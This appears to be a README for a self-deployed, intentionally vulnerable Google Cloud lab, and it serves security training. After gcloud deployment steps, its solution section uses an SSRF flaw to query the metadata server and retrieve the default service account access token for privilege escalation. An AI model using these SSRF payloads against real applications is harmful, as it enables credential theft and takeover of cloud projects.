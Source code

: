 ## Attacking Google App Engine  

> Note please execute this scenario as the last scenario because it requires you to delete the project in order to clean up the resources


In order to start the scenario go to the `scenario-5` folder by typing the below command in the `GCLOUD Shell`

First export the project id using the below command 

```bash
export PROJECT_ID="project-id"
```

Next configure the `gcloud` to use the project by typing the below command

```bash
gcloud config set project $PROJECT_ID
```

Next enable the `App Engine` API by typing the below command

```bash
gcloud services enable appengine.googleapis.com
```

Next deploy the `App Engine` by typing the below command

```bash
gcloud app deploy
```

> Select the region you want to deploy and press `Y` to continue

Once it is done you can find the application url by typing the below command

```bash
gcloud app browse
```



## Scenario Info


According to the [Wikipedia](https://en.wikipedia.org/wiki/Google_App_Engine)

**Google App Engine (often referred to as GAE or simply App Engine) is a Platform as a Service and cloud computing platform for developing and hosting web applications in Google-managed data centers. Applications are sandboxed and run across multiple servers. App Engine offers automatic scaling for web applications—as the number of requests increases for an application, App Engine automatically allocates more resources for the web application to handle the additional demand.**


By default the `App Engine` is deployed with the `default` app engine service account which has the `Editor` role in the project






In this scenario we are going to exploit the `SSRF` vulnerability in the deployed application and use the `Metadata Server` to get the service account token




### Solution

First Let's try to access the `Metadata endpoint` that gives you the information about the project id by typing the below payload in the `URL` field

```bash
http://metadata.google.internal/computeMetadata/v1/project/project-id
```
Under the `Headers` section add the below header

```bash
Metadata-Flavor: Google
```

And click on `CHECK STATUS` button and you can find the project id in the response

Next try to access the `Metadata endpoint` that gives you the information about the service account token by typing the below payload in the `URL` field

```bash
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

You can find the `access_token` in the response and you can use this token to perform the privilege escalation in the project


> Note In recent version Compute Engine SSRF is only possible if you able to pass the `headers` as `Metadata-Flavor: Google` 


### Clean up

According to the google , there is no way to delete the `App Engine` service account so you have to delete the project in order to clean up the resources

So we recommend you to delete the project after completing the scenario




## References

1. In order to learn more about `SSRF` in Google Cloud I highly recommend to check out [Tutorial on privilege escalation and post exploitation tactics in Google Cloud Platform environments](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)  by [Chris Moberly](https://about.gitlab.com/company/team/#init_string)

2. More details about the meta-data endpoint [link](https://hackingthe.cloud/gcp/general-knowledge/metadata_in_google_cloud_instances/)


